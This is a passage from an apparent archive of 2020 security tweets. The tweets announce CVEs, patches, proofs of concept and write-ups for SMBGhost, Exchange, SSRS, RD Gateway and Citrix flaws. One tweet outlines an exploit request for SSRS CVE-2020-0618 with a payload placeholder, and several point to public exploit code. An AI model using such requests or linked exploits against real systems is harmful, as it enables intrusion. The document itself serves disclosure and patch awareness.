<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>26</code></td>
<td>Favorites: <code>59</code></td>
</tr></table>

---
# buffaloverflow
**https://twitter.com/buffaloverflow/status/1241072602946383873 _at Fri Mar 20 18:42:21 +0000 2020_**
<blockquote>
Had fun today writing a .NET exploit for @itm4n 's CVE-2020-0787 BITS LPE and UsoLoader technique.

Check out his blog posts and research if you haven't already. They are all brilliant 👏🙏

https://t.co/Of7DLLWZMl
https://t.co/PRJOpXMNWV https://t.co/J2GhIT8xy3
</blockquote>

* https://itm4n.github.io/cve-2020-0787-windows-bits-eop/
* https://itm4n.github.io/usodllloader-part2/

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>84</code></td>
<td>Favorites: <code>191</code></td>
</tr></table>

---
# TheHackersNews
**https://twitter.com/TheHackersNews/status/1240335971230420992 _at Wed Mar 18 17:55:14 +0000 2020_**
<blockquote>
Tor 0.4.3.3-alpha released with security fixes!

CVE-2020-10593
high-severity denial-of-service issue

This flaw could let attackers cause Tor instances to consume a huge amount of CPU, disrupting operations for several minutes.

CVE-2020-10592
remotely triggered memory leak bug https://t.co/4tAA9WD6zL
</blockquote>

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>92</code></td>
<td>Favorites: <code>133</code></td>
</tr></table>

---
# blackorbird
**https://twitter.com/blackorbird/status/1238282567675043841 _at Fri Mar 13 01:55:44 +0000 2020_**
<blockquote>
#SMBGhost Technical analysis of Microsoft SMBv3 client / server remote code execution vulnerability (CVE-2020-0796)
report:
https://t.co/TQi9siQGhH
translate:
https://t.co/g2eRVSuV74
ref:
https://t.co/hD93owRitk
</blockquote>

* http://blogs.360.cn/post/CVE-2020-0796.html
* https://translate.google.com/translate?hl=&sl=zh-CN&tl=en&u=http%3A%2F%2Fblogs.360.cn%2Fpost%2FCVE-2020-0796.html
* https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-smb2/1d435f21-9a21-4f4c-828e-624a176cf2a0

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>22</code></td>
<td>Favorites: <code>33</code></td>
</tr></table>

---
# UK_Daniel_Card
**https://twitter.com/UK_Daniel_Card/status/1238152468414029825 _at Thu Mar 12 17:18:46 +0000 2020_**
<blockquote>
Microsoft has released an out of band security update for the SMB v3 RCE Vulenrability (CVE-2020-0796): KB4551762 

This vulnerability can be used in a simmilar way to MSBLASTER/WANNACRY so it's really important you update your sys…https://t.co/Y9wlR8PtYm https://t.co/EajF3TeIw9
</blockquote>

* https://lnkd.in/d3s-CEH
* https://lnkd.in/dKKJWWU

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>19</code></td>
<td>Favorites: <code>33</code></td>
</tr></table>

---
# BleepinComputer
**https://twitter.com/BleepinComputer/status/1238128405910097921 _at Thu Mar 12 15:43:09 +0000 2020_**
<blockquote>
BREAKING: Microsoft releases the out-of-band KB4551762 Windows 10 security update to patch the CVE-2020-0796 SMBv3 RCE vulnerability
https://t.co/M1A1RKezX4
</blockquote>

* https://www.bleepingcomputer.com/news/security/microsoft-releases-kb4551762-security-update-for-smbv3-vulnerability/

<table><tr>
<td>Quotes: <code>11</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>136</code></td>
<td>Favorites: <code>174</code></td>
</tr></table>

---
# Synacktiv
**https://twitter.com/Synacktiv/status/1238126780734754816 _at Thu Mar 12 15:36:42 +0000 2020_**
<blockquote>
Since MSRC just published a fix for CVE-2020-0796, here's @_lucas_georges_ quick and dirty root cause analysis on it: https://t.co/V2RQReCkrS #sambadijaneiro
</blockquote>

* https://www.synacktiv.com/posts/exploit/im-smbghost-daba-dee-daba-da.html

<table><tr>
<td>Quotes: <code>17</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>262</code></td>
<td>Favorites: <code>409</code></td>
</tr></table>

---
# UID_
**https://twitter.com/UID_/status/1237459414317137920 _at Tue Mar 10 19:24:49 +0000 2020_**
<blockquote>
Seems like Cisco's Talos accidentily published details about CVE-2020-0796. A RCE exploit in SMBv3. This type of exploit is comparable to EternalBlue. The impact of such an exploit is what we experienced during WannaCry and NotPetya. https://t.co/jh7HKRDWDr
</blockquote>

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>45</code></td>
<td>Favorites: <code>52</code></td>
</tr></table>

---
# Easi123
**https://twitter.com/Easi123/status/1237435605975543808 _at Tue Mar 10 17:50:13 +0000 2020_**
<blockquote>
CVE-2020-0796 is a remote code execution vulnerability in Microsoft Server Message Block 3.0 (SMBv3).  Users are encouraged to disable SMBv3 compression and block TCP port 445 on firewalls and client computers.
</blockquote>

<table><tr>
<td>Quotes: <code>15</code></td>
<td>Replies: <code>10</code></td>
<td>Retweets: <code>164</code></td>
<td>Favorites: <code>289</code></td>
</tr></table>

---
# dnlongen
**https://twitter.com/dnlongen/status/1237433447309852674 _at Tue Mar 10 17:41:38 +0000 2020_**
<blockquote>
Give your Windows sysadmins a virtual hug. Looks like they may be busy for a while... Potentially wormable RCE in SMBv3 CVE-2020-0796 (which incidentally, I cannot find any MSFT disclosure for yet). Let's see what WannaCry and NotPetya taught us... https://t.co/gqhJx5h2zV https://t.co/cGlCH6QVN7
</blockquote>

* https://blog.talosintelligence.com/2020/03/microsoft-patch-tuesday-march-2020.html

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>13</code></td>
<td>Replies: <code>8</code></td>
<td>Retweets: <code>136</code></td>
<td>Favorites: <code>175</code></td>
</tr></table>

---
# sysgoblin
**https://twitter.com/sysgoblin/status/1237054973579583489 _at Mon Mar 09 16:37:43 +0000 2020_**
<blockquote>
⚠ Active exploitation of CVE-2020-10189 being seen from  66.42.98.220:12345

RCE drops .bat and .dll to spin up malicious service. DLL to watch out for: storesyncsvc.dll

If anyone obtains a copy of the .dll please hit me up.

cc @malwrhunterteam
</blockquote>

<table><tr>
<td>Quotes: <code>9</code></td>
<td>Replies: <code>9</code></td>
<td>Retweets: <code>128</code></td>
<td>Favorites: <code>238</code></td>
</tr></table>

---
# NSAGov
**https://twitter.com/NSAGov/status/1236099750610563074 _at Sat Mar 07 01:22:00 +0000 2020_**
<blockquote>
A remote code execution #vulnerability (CVE-2020-0688) exists in Microsoft Exchange Server. If unpatched, an attacker with email credentials can execute commands on your server. 

Mitigation Guidance available at: https://t.co/MMlBo8BsB0
</blockquote>

* https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-0688

<table><tr>
<td>Quotes: <code>42</code></td>
<td>Replies: <code>38</code></td>
<td>Retweets: <code>664</code></td>
<td>Favorites: <code>825</code></td>
</tr></table>

---
# james0x40
**https://twitter.com/james0x40/status/1234478389651759104 _at Mon Mar 02 13:59:18 +0000 2020_**
<blockquote>
My cve-2020-6418 #Chrome remote code execution #exploit demo video. #0day #development https://t.co/OhSVfXkVXo
</blockquote>

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>15</code></td>
<td>Retweets: <code>242</code></td>
<td>Favorites: <code>695</code></td>
</tr></table>

---
# NVISO_Labs
**https://twitter.com/NVISO_Labs/status/1232997983655993346 _at Thu Feb 27 11:56:41 +0000 2020_**
<blockquote>
This morning, PoC code to abuse CVE-2020-0688 (Microsoft Exchange Validation Key Remote Code Execution Vulnerability) was released. In case you haven't done so, it's time to patch, patch, patch! https://t.co/DvqHexydpq

Our sigma rule to detect this: https://t.co/fXalEL0F6Z
</blockquote>

* https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-0688
* https://github.com/NVISO-BE/sigma-public/blob/web_exchange_cve_2020_0688_exploit/rules/web/web_exchange_cve_2020_0688_exploit.yml

<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>140</code></td>
<td>Favorites: <code>226</code></td>
</tr></table>

---
# GossiTheDog
**https://twitter.com/GossiTheDog/status/1232430811439403014 _at Tue Feb 25 22:22:57 +0000 2020_**
<blockquote>
That was quick, since 2 hours ago seeing likely mass scanning for CVE-2020-0688 (Microsoft Exchange 2007+ RCE vulnerability). https://t.co/Kp3zOi5AOA
</blockquote>

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>17</code></td>
<td>Favorites: <code>45</code></td>
</tr></table>

---
# anttitikkanen
**https://twitter.com/anttitikkanen/status/1232070933063577600 _at Mon Feb 24 22:32:55 +0000 2020_**
<blockquote>
Latest Chrome update patches CVE-2020-6418, 0day found in the wild by @_clem1 : https://t.co/H2j5PXO8gV https://t.co/K2GoOJCPgf
</blockquote>

* https://chromereleases.googleblog.com/2020/02/stable-channel-update-for-desktop_24.html?m=1

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>76</code></td>
<td>Favorites: <code>155</code></td>
</tr></table>

---
# _argp
**https://twitter.com/_argp/status/1230018688725716993 _at Wed Feb 19 06:38:02 +0000 2020_**
<blockquote>
'The bug was "fixed" by Apple in 2012 as CVE-2012-3727 but fixed the bug in the wrong function (dns4 one) so this is still an 0day at the moment.'

;)

https://t.co/f0eHDQDoDr
</blockquote>

* https://github.com/JakeBlair420/Spice

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>81</code></td>
<td>Favorites: <code>260</code></td>
</tr></table>

---
# campuscodi
**https://twitter.com/campuscodi/status/1229818692789309442 _at Tue Feb 18 17:23:19 +0000 2020_**
<blockquote>
PoC published for CVE-2020-0618, which is an RCE in Microsoft's SQL Server Reporting Services (SSRS)

https://t.co/t6bmycdUjX https://t.co/n16cHivDMe
</blockquote>

* https://www.mdsec.co.uk/2020/02/cve-2020-0618-rce-in-sql-server-reporting-services-ssrs/

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>141</code></td>
<td>Favorites: <code>291</code></td>
</tr></table>

---
# wugeej
**https://twitter.com/wugeej/status/1229671907219296256 _at Tue Feb 18 07:40:03 +0000 2020_**
<blockquote>
[PoC] CVE-2020-0618 Microsoft SQL Server Reporting Services RCE Vulnerability

POST /ReportServer/pages/ReportViewer.aspx HTTP/1.1
Host: target
...
...
NavigationCorrector$PageState=NeedsCorrection&amp;NavigationCorrector$ViewState=[PayloadHere]&amp;__VIEWSTATE=

https://t.co/zDu2m9gJnh https://t.co/FeCBMcnaPv
</blockquote>

* https://github.com/euphrat1ca/CVE-2020-0618

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>177</code></td>
<td>Favorites: <code>335</code></td>
</tr></table>

---
# campuscodi
**https://twitter.com/campuscodi/status/1229039979608674304 _at Sun Feb 16 13:49:00 +0000 2020_**
<blockquote>
PoC + write-up on CVE-2020-0668, a privilege escalation vulnerability in Windows Service Tracing

Bug was patched this week

https://t.co/nJRsNUBwmP https://t.co/z6y6f3P5PI
</blockquote>

* https://itm4n.github.io/cve-2020-0668-windows-service-tracing-eop/

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>68</code></td>
<td>Favorites: <code>155</code></td>
</tr></table>

---
# a13xp0p0v
**https://twitter.com/a13xp0p0v/status/1228684638123626498 _at Sat Feb 15 14:17:00 +0000 2020_**
<blockquote>
My write-up covering @offensive_con talk!

CVE-2019-18683: Exploiting a Linux kernel vulnerability in the V4L2 subsystem
https://t.co/rXTaqzoAAZ

@offensive_con slides: https://t.co/oKyNC3dTER

PoC exploit demo video: https://t.co/tIaurXLAOF

Enjoy! https://t.co/W1ZkceXOr4
</blockquote>

* https://a13xp0p0v.github.io/2020/02/15/CVE-2019-18683.html
* https://a13xp0p0v.github.io/img/CVE-2019-18683.pdf
* https://www.youtube.com/watch?v=mb4YHyLy0Zc

<table><tr>
<td></td>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>231</code></td>
<td>Favorites: <code>474</code></td>
</tr></table>

---
# irsdl
**https://twitter.com/irsdl/status/1227320193745068032 _at Tue Feb 11 19:55:11 +0000 2020_**
<blockquote>
CVE-2020-0618: Microsoft SQL Server Reporting Services Remote Code Execution Vulnerability - if you use SSRS patch now not even tomorrow! It is a simple unauth rce!
</blockquote>

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>8</code></td>
<td>Retweets: <code>64</code></td>
<td>Favorites: <code>186</code></td>
</tr></table>

---
# _Icewall
**https://twitter.com/_Icewall/status/1227307797798432775 _at Tue Feb 11 19:05:55 +0000 2020_**
<blockquote>
My two freshly patched MS vulns : 
CVE-2020-0759 - Microsoft Office Excel Ordinal43 code execution vulnerability

https://t.co/0XH6Ec5Mlw

CVE-2020-0738 - Microsoft Media Foundation IMFASFSplitter::Initialize Code Execution Vuln.

https://t.co/Vr78b7OyAX
</blockquote>

* https://talosintelligence.com/vulnerability_reports/TALOS-2019-0968
* https://talosintelligence.com/vulnerability_reports/TALOS-2019-0946

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>77</code></td>
<td>Favorites: <code>170</code></td>
</tr></table>

---
# RealTryHackMe
**https://twitter.com/RealTryHackMe/status/1226821142385741829 _at Mon Feb 10 10:52:08 +0000 2020_**
<blockquote>
Understand a recent Linux local privilege escalation vulnerability (CVE-2019-14287) and exploit it yourself with your own FREE deployable vulnerable machine!

https://t.co/jacpdF2hyf

#linux #infosecurity #hacking #learn #handson https://t.co/mHct6sSNqX
</blockquote>

* https://tryhackme.com/room/sudovulnsbypass

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>21</code></td>
<td>Favorites: <code>44</code></td>
</tr></table>

---
# _odisseus
**https://twitter.com/_odisseus/status/1225322575561216000 _at Thu Feb 06 07:37:22 +0000 2020_**
<blockquote>
Cisco Discovery Protocol (CDP) enabled devices are vulnerable to Denial-of-Service (DoS) and Remote Code Execution (RCE) 👏👏👏

CVE-2020-3110
CVE-2020-3111
CVE-2020-3118
CVE-2020-3119
CVE-2020-3120

Note: https://t.co/1PUb2gT1KE

Hacking Video: https://t.co/NMqbjoWU2y https://t.co/vxHxa6jlMH
</blockquote>

* https://kb.cert.org/vuls/id/261385/
* https://www.youtube.com/watch?v=nYtDJlzU-ao&feature=youtu.be

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>31</code></td>
<td>Favorites: <code>33</code></td>
</tr></table>

---
# _ringzer0
**https://twitter.com/_ringzer0/status/1224325925606699010 _at Mon Feb 03 13:37:02 +0000 2020_**
<blockquote>
Full writeup and exploit of Windows kernel ws2ifsl use-after-free (CVE-2019-1215) via @bluefrostsec and @flxflndy

https://t.co/bC2O3rmNaV https://t.co/XvilzbqrOp
</blockquote>

* https://labs.bluefrostsecurity.de/blog/2020/01/07/cve-2019-1215-analysis-of-a-use-after-free-in-ws2ifsl/

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>62</code></td>
<td>Favorites: <code>122</code></td>
</tr></table>

---
# wugeej
**https://twitter.com/wugeej/status/1222786139636944897 _at Thu Jan 30 07:38:28 +0000 2020_**
<blockquote>
CVE-2020-0674: Internet Explorer Remote Code Execution Vulnerability Exploited in the Wild

Zero-day remote code execution vulnerability

Triggers
0. JScript
1. used in #argument
2. #recursion
...

Proof of Concept Demo Video https://t.co/K3PRkb753s
</blockquote>

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>8</code></td>
<td>Retweets: <code>145</code></td>
<td>Favorites: <code>298</code></td>
</tr></table>

---
# window
**https://twitter.com/window/status/1222345450629423104 _at Wed Jan 29 02:27:20 +0000 2020_**
<blockquote>
“To overcome these limitations, we drew inspiration from the Morris worm... which exploited the DEBUG vulnerability in Sendmail by executing the body of a mail as a
shell script”

oss-security - LPE and RCE in OpenSMTPD (CVE-2020-7247)
 https://t.co/cQLRvg7h8P
</blockquote>

* https://www.openwall.com/lists/oss-security/2020/01/28/3

<table><tr>
<td>Quotes: <code>9</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>47</code></td>
<td>Favorites: <code>94</code></td>
</tr></table>

---
# RiftWhiteHat
**https://twitter.com/RiftWhiteHat/status/1222302147515162625 _at Tue Jan 28 23:35:15 +0000 2020_**
<blockquote>
Here's my PoC for CVE-2020-7980, a script to gain RCE (root level) to some Satellite controllers.

https://t.co/LBH3u9Jzix
</blockquote>

* https://github.com/Xh4H/Satellian-CVE-2020-7980

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>51</code></td>
<td>Favorites: <code>161</code></td>
</tr></table>

---
# pozdnychev
**https://twitter.com/pozdnychev/status/1222297493339361281 _at Tue Jan 28 23:16:46 +0000 2020_**
<blockquote>
Qualys Security Advisory:  LPE and RCE (CVE-2020-7247) in OpenSMTPD, OpenBSD's mail server.  Erroneous logic in smtp_mailaddr() which validates user and domain. More details and PoC at: https://t.co/jjTJaqYgUO

PS:  "Did you ever play tic-tac-toe?"
</blockquote>

* https://www.openwall.com/lists/oss-security/2020/01/28/3

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>102</code></td>
<td>Favorites: <code>168</code></td>
</tr></table>

---
# layle_ctf
**https://twitter.com/layle_ctf/status/1221514332049113095 _at Sun Jan 26 19:24:46 +0000 2020_**
<blockquote>
Ladies and gentlemen, I present you a working Remote Code Execution (RCE) exploit for the Remote Desktop Gateway (CVE-2020-0609 &amp; CVE-2020-0610). Accidentally followed a few rabbit holes but got it to work! Time to write a blog post ;)

Don't forget to patch! https://t.co/FekupjS6qG
</blockquote>

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>51</code></td>
<td>Replies: <code>50</code></td>
<td>Retweets: <code>1090</code></td>
<td>Favorites: <code>3122</code></td>
</tr></table>

---
# campuscodi
**https://twitter.com/campuscodi/status/1220944637138882562 _at Sat Jan 25 05:41:00 +0000 2020_**
<blockquote>
Local Privilege Escalation in many Ricoh Printer Drivers for Windows (CVE-2019-19363)

PoC exploit included

https://t.co/WWRZ2dVPoq https://t.co/y2rmHxeFIe
</blockquote>

* https://www.pentagrid.ch/en/blog/local-privilege-escalation-in-ricoh-printer-drivers-for-windows-cve-2019-19363/

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>19</code></td>
<td>Favorites: <code>31</code></td>
</tr></table>

---
# layle_ctf
**https://twitter.com/layle_ctf/status/1220798026530414593 _at Fri Jan 24 19:58:25 +0000 2020_**
<blockquote>
It's time to drop my DoS PoC for CVE-2020-0609 &amp; CVE-2020-0610! Gonna make the scanner soon and then hopefully create a full RCE if possible :) Thanks to @ollypwn for the assistance!
https://t.co/MpDPLrmTZP
</blockquote>

* https://github.com/ioncodes/BlueGate

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>33</code></td>
<td>Favorites: <code>83</code></td>
</tr></table>

---
# binitamshah
**https://twitter.com/binitamshah/status/1220630795825451008 _at Fri Jan 24 08:53:54 +0000 2020_**
<blockquote>
Local Privilege Escalation in many Ricoh Printer Drivers for Windows (CVE-2019-19363) + Exploit : https://t.co/G2zJDcaJ00 cc @pentagridsec
</blockquote>

* https://www.pentagrid.ch/en/blog/local-privilege-escalation-in-ricoh-printer-drivers-for-windows-cve-2019-19363/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>20</code></td>
<td>Favorites: <code>44</code></td>
</tr></table>

---
# Dinosn
**https://twitter.com/Dinosn/status/1220604304370872332 _at Fri Jan 24 07:08:38 +0000 2020_**
<blockquote>
PoC (DoS) for CVE-2020-0609 &amp; CVE-2020-0610 - RD Gateway RCE
https://t.co/O2a1AtcwSg
</blockquote>

* https://github.com/ollypwn/BlueGate

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>32</code></td>
<td>Favorites: <code>50</code></td>
</tr></table>

---
# LukasStefanko
**https://twitter.com/LukasStefanko/status/1220255786087190528 _at Thu Jan 23 08:03:45 +0000 2020_**
<blockquote>
Forensic analysis of Jeff Bezos hacked #iPhoneX

iPhone was exploited via #WhatsApp vulnerability that probably triggered RCE.
Similar exploit was fixed in October 2019- CVE-2019-11932(double-free vulnerability) but instead of video it was triggered by GIF
https://t.co/WE9BLPeBly https://t.co/51IKnKiA9Q
</blockquote>

* https://www.documentcloud.org/documents/6668313-FTI-Report-into-Jeff-Bezos-Phone-Hack.html

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>46</code></td>
<td>Favorites: <code>72</code></td>
</tr></table>

---
# Mateusz_Jozef
**https://twitter.com/Mateusz_Jozef/status/1218990646108860417 _at Sun Jan 19 20:16:32 +0000 2020_**
<blockquote>
CVE-2020-0674: Microsoft Internet Explorer 0day - Scripting Engine Memory Corruption Vulnerability being exploited in the wild https://t.co/lK5gTFxb8R
</blockquote>

* https://www.reddit.com/r/netsec/comments/equ1s6/cve20200674_microsoft_internet_explorer_0day/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>36</code></td>
<td>Favorites: <code>53</code></td>
</tr></table>

---
# blackorbird
**https://twitter.com/blackorbird/status/1218529058218106880 _at Sat Jan 18 13:42:21 +0000 2020_**
<blockquote>
#darkhotel  #0day #exploit
CVE-2020-0674 
Microsoft Guidance on Scripting Engine Memory Corruption Vulnerability
A remote code execution vulnerability exists in the way that the scripting engine handles objects in memory in Internet Explorer. 
https://t.co/1mbqh1IMDz
</blockquote>

* https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/ADV200001

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>34</code></td>
<td>Favorites: <code>67</code></td>
</tr></table>

---
# jorgeorchilles
**https://twitter.com/jorgeorchilles/status/1218376627815616512 _at Sat Jan 18 03:36:39 +0000 2020_**
<blockquote>
New Internet Explorer 0day and advisory out. Exploited in wild. No patch from Microsoft. Mitigation is to not use IE. CVE-2020-0674

https://t.co/Tk8XHBBLnq
</blockquote>

* https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/ADV200001

<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>95</code></td>
<td>Favorites: <code>86</code></td>
</tr></table>

---
# MalwareTechBlog
**https://twitter.com/MalwareTechBlog/status/1218324513999319042 _at Sat Jan 18 00:09:34 +0000 2020_**
<blockquote>
My analysis of Remote Desktop Gateway RCE bugs CVE-2020-0609 &amp; CVE-2020-0610 is up.
</blockquote>

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>9</code></td>
<td>Retweets: <code>161</code></td>
<td>Favorites: <code>444</code></td>
</tr></table>

---
# kryptoslogic
**https://twitter.com/kryptoslogic/status/1218323686761037824 _at Sat Jan 18 00:06:16 +0000 2020_**
<blockquote>
RDP to RCE: When Fragmentation Goes Wrong

AKA: What we know about CVE-2020-0609 and CVE-2020-0610.

https://t.co/NW2mKOf5Hw
</blockquote>

* https://www.kryptoslogic.com/blog/2020/01/rdp-to-rce-when-fragmentation-goes-wrong/

<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>285</code></td>
<td>Favorites: <code>571</code></td>
</tr></table>

---
# 0xdea
**https://twitter.com/0xdea/status/1217415111603826689 _at Wed Jan 15 11:55:55 +0000 2020_**
<blockquote>
CVE-2020-2696 – Local privilege escalation via CDE dtsession

Writeup:
https://t.co/8VF2GQb3OF

Advisory:
https://t.co/wn5bdrw6wG

Exploit:
https://t.co/19JbJ1yOYL
</blockquote>

* https://techblog.mediaservice.net/2020/01/local-privilege-escalation-via-cde-dtsession/
* https://github.com/0xdea/advisories/blob/master/2020-02-cde-dtsession.txt
* https://github.com/0xdea/exploits/blob/master/solaris/raptor_dtsession_ipa.c

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>42</code></td>
<td>Favorites: <code>103</code></td>
</tr></table>

---
# bad_packets
**https://twitter.com/bad_packets/status/1216635462011351040 _at Mon Jan 13 08:17:52 +0000 2020_**
<blockquote>
Servers vulnerable to CVE-2019-19781 by country:
🇺🇸 United States: 9,880
🇩🇪 Germany: 2,510
🇬🇧 United Kingdom: 2,028
🇨🇭 Switzerland: 1,094
🇦🇺 Australia: 1,076
🇳🇱 Netherlands: 713
🇨🇦 Canada: 682
🇫🇷 France: 591
🇮🇹 Italy: 568
🇳🇴 Norway: 446
All others: 5,533
https://t.co/tm7udJUzH1
</blockquote>

* https://docs.google.com/spreadsheets/d/1sJ8-cVyG4vFYq6-MGdapM1eAhUkoXIKlsmuzKdfD9Ys/edit?usp=sharing

<table><tr>
<td>Quotes: <code>36</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>149</code></td>
<td>Favorites: <code>177</code></td>
</tr></table>

---
# bad_packets
**https://twitter.com/bad_packets/status/1215786199383597056 _at Sat Jan 11 00:03:12 +0000 2020_**
<blockquote>
Remote code execution proof-of-concept for Citrix ADC/Gateway vulnerability CVE-2019-19781 has been posted on GitHub: https://t.co/YsDS0EI4M1

Affected organizations are advised to apply the mitigation provided by Citrix ASAP as no patch exists yet. https://t.co/c9f22TfP2K
</blockquote>

* https://github.com/projectzeroindia/CVE-2019-19781
* https://support.citrix.com/article/CTX267679

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>34</code></td>
<td>Favorites: <code>45</code></td>
</tr></table>

---
# mpgn_x64
